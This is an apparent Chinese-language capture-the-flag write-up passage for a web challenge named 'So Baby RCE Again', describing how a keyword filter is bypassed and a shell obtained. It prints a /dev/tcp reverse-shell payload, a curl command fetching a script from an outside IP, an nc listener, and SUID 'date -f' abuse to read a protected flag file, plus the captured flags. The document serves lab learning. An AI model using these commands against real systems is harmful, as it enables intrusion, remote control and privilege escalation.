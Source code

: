 网页端得到 flag：

```plain
flag{01089939-9f12-4c7a-a50d-76f626381e39}
```

### So Baby RCE Again

访问靶机网址，WebShell 过滤了关键字 `bash` 和 `curl`，可使用两点号` `` `绕过。

构造 payload `bash -i &> /dev/tcp/47.97.152.130/54188 0>&1` 作为 `cmd` 参数发现并不行，没找到原因。

尝试在公网服务器上挂载脚本，并在靶机上 `curl`

```bash
curl -o shell.sh 47.97.152.130:54180
```

即传参 `?cmd=cu``rl%20-o%20shell.sh%2047.97.152.130:54180`

在公网服务器上使用 nc 监听

```shell
[root@Cnkid03~]$ nc -lvp 54188
```

然后在靶机上

```bash
bash shell.sh
```

即传参 `?cmd=bas``h%20shell.sh`

回到我们的公网服务器，发现已经拿到 shell.

进行常规的查找 flag 操作，易得 flag 存在于根目录中，进行 cat 操作

```shell
www-data@out:/$ cat ffll444aaggg
cat: ffll444aaggg: Permission denied
```

是的，shell 那么容易就拿到，出题人不会就此善罢甘休的。

考虑提权。查找具有 SUID 的文件：

```shell
www-data@out:/$ find / -perm -u=s -type f 2>/dev/null
/bin/date
/bin/mount
/bin/su
/bin/umount
```

`date` 具有 `-file` 选项，考虑劫持 `date`

```shell
www-data@out:/$ date -f /ffll444aaggg
date: invalid date 'flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}' 
```

获得 flag.
